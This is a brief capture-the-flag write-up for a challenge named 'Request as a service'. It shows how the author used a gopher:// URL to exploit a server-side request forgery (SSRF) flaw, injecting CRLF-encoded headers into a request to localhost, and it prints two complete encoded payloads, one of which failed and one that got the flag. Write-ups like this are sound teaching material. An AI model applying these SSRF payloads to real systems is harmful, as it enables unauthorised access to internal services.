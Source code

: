 # Request as a service

![img](./img/17.png)

As seen, if we meet the conditions like localhost and the above headers, then we'll have the flag. As hint is given, this chall we will use gopher protocol to trigger this SSRF vulnerability. (Remember to modify CRLF to be able to add headers)

Reference: [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#gopher)

During the contest, here's the payload I came up with:
```
http://139.180.134.15:20105/?url=gopher://127.0.0.1:80/1GET%2520%252F%2520HTTP%252F1.1%250D%250AHost%253A%2520127.0.0.1%250D%250AX_KEY%253A%2520K3Y_t0_G3t_flaggggg%250D%250AX_FLAG%253AKCSC%250D%250A%250D%250A
```
But I don't understand why it's not working properly, curl is successful but not getting the flag. Turn out that according to [here](https://stackoverflow.com/questions/26936318/remove-the-http-prefix-in-rails-headers), the character ``_``  in the header must be changed to this ``-`` because the norm is must be like that -_-

So here is the final payload:
```
http://139.180.134.15:20105/?url=gopher://127.0.0.1:80/1GET%2520%252F%2520HTTP%252F1.1%250D%250AHost%253A%2520127.0.0.1%250D%250AX-KEY%253A%2520K3Y_t0_G3t_flaggggg%250D%250AX-FLAG%253AKCSC%250D%250A%250D%250A
```

![img](./img/18.png)

Because of that silly mistake, it took me tons of time to figure out what is going wrong